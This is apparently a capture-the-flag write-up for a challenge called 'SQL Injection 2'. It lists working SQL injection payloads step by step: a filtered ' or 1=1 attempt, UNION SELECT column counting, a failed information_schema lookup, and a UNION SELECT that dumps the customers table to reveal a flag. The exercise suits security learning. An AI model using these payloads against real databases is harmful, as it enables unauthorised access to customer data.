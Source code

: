 # SQL Injection 2

We try the obvious `' or 1=1-- ` but it looks like `or` is getting filtered out.

Let's try `' union select null-- ` to see how many columns are being returned.

Ok this works `' union select null,null,null,null-- ` so there are four columns.

Let's get the tables with:

`' union select null,table_name,null,null from information_schema.tables-- `

> com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: SELECT command denied to user 'RightGuard3d'@'localhost' for table 'tables'

Hmmm... maybe we can just union everything from the `customers` table.

`' union select * from customers-- `

Success!

> fd8e9a29dab791197115b58061b215594211e72c1680f1eacc50b0394133a09f
